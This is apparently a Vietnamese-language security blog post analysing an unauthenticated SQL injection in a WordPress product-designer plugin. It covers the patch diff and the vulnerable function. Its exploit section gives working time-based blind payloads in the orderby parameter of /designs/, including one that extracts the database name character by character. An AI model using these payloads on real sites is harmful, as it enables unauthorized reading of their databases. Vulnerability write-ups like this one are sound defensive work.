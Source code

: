 ```yaml
---
title: CVE-2025-48281 Analysis & POC
description: Lỗ hổng bảo mật trong plugin WordPress MyStyle Custom Product Designer.
date: 2025-09-27 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

Lỗ hổng tồn tại trong plugin **MyStyle Custom Product Designer** của WordPress trước phiên bản **3.21.2**. Lỗ hổng này cho phép kẻ tấn công tương tác trực tiếp với cơ sở dữ liệu, bao gồm khả năng trích xuất hoặc thao túng dữ liệu.

* **CVE ID**: [CVE-2025-48281](https://www.cve.org/CVERecord?id=CVE-2025-48281)
* **Sản phẩm**: [WordPress MyStyle Custom Product Designer Plugin](https://wordpress.org/plugins/mystyle-custom-product-designer)
* **Loại lỗ hổng**: SQL Injection
* **Phiên bản bị ảnh hưởng**: <= 3.21.1
* **Mức độ nghiêm trọng (CVSS)**: Cao (9.3)
* **Yêu cầu đặc quyền**: Không cần xác thực

---

## Requirements

* [**WordPress cục bộ & Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **MyStyle Custom Product Designer**: v3.21.1 (có lỗ hổng) và v3.21.2 (đã vá)
* **Công cụ diff**: **meld** hoặc bất kỳ công cụ so sánh phiên bản nào
* **WooCommerce plugin**: phải được kích hoạt trước khi cài đặt MyStyle vì plugin này sử dụng một số hàm từ WooCommerce

---

## Analysis

Nguyên nhân chính là việc ứng dụng chèn trực tiếp dữ liệu từ tham số **GET** vào câu truy vấn SQL mà không có biện pháp xác thực hợp lệ.

### Patch Diff

Dưới đây là sự khác biệt giữa hai phiên bản (3.21.1 và 3.21.2) trong file **includes/entities/class-mystyle-designmanager.php**.

Ảnh minh họa:
![Bản vá khác biệt](patch_diff.png "So sánh bản vá")

Bản vá mới đã thêm danh sách **whitelist** `$allowed_orderby` để chỉ cho phép sắp xếp theo các cột hợp lệ. Nếu giá trị `orderby` không nằm trong danh sách, nó sẽ tự động bị thay thế bằng `'ms_design_id'`, ngăn chặn chèn mã độc SQL.

---

## How it works

Lỗ hổng nằm trong hàm `get_designs` thuộc class `MyStyle_DesignManager` (file **includes/entities/class-mystyle-designmanager.php**).
Hàm này được gọi bởi các hàm như `get_items`, `init_index_request`, và một số hàm kiểm thử.

Ảnh minh họa:
![Tìm kiếm hàm get\_designs](search_1.png "Kết quả tìm kiếm get_designs")

Vì đây là lỗ hổng **unauthenticated**, cần xác định hàm nào có thể được gọi mà không yêu cầu đăng nhập.
Kết quả cho thấy chỉ có `init_index_request` có thể bị khai thác trực tiếp qua URL `/designs/`.

Ảnh minh họa:
![Luồng xử lý](chart.png "Luồng tấn công logic")

---

## Exploit

### Kiểm tra SQLi

Gửi request chứa payload SQLi để kiểm tra:

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Câu truy vấn kết quả:

```sql
SELECT * FROM wp_mystyle_designs WHERE ms_access = 0 ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25 OFFSET 0
```

Nếu phản hồi chậm 5 giây → payload hoạt động.

Ảnh minh họa:
![Kết quả phản hồi thời gian](time_resp.png "Kiểm tra độ trễ thời gian")

> Không thêm dấu comment (`--`) sau `SLEEP()` vì sẽ khiến SQL parser lỗi do xuống dòng giữa `ASC` và `OFFSET`.

Ảnh minh họa lỗi debug:
![Debug lỗi cú pháp](debug.png "Debug lỗi")

---

### Lấy ký tự đầu tiên của tên cơ sở dữ liệu

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Nếu phản hồi chậm → ký tự đầu tiên của tên database là **w**.
Kỹ thuật này có thể được mở rộng để trích xuất toàn bộ tên cơ sở dữ liệu hoặc bảng dữ liệu.

---

## Conclusion

Lỗ hổng **CVE-2025-48281** trong plugin **MyStyle Custom Product Designer** (<= 3.21.1) xuất phát từ việc đưa trực tiếp dữ liệu người dùng vào truy vấn SQL mà không xác thực đúng cách.

Bản vá **3.21.2** đã khắc phục bằng cách áp dụng danh sách cột cho phép (`whitelist`) và kiểm tra giá trị đầu vào.

**Bài học rút ra:**

* Luôn xác thực dữ liệu đầu vào.
* Khi làm việc với cơ sở dữ liệu trong WordPress, **bắt buộc dùng `$wpdb->prepare()`**.
* Thường xuyên cập nhật plugin để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress MyStyle Custom Product Designer Plugin <= 3.21.1 SQL Injection](https://patchstack.com/database/wordpress/plugin/mystyle-custom-product-designer/vulnerability/wordpress-mystyle-custom-product-designer-3-21-1-sql-injection-vulnerability)

---
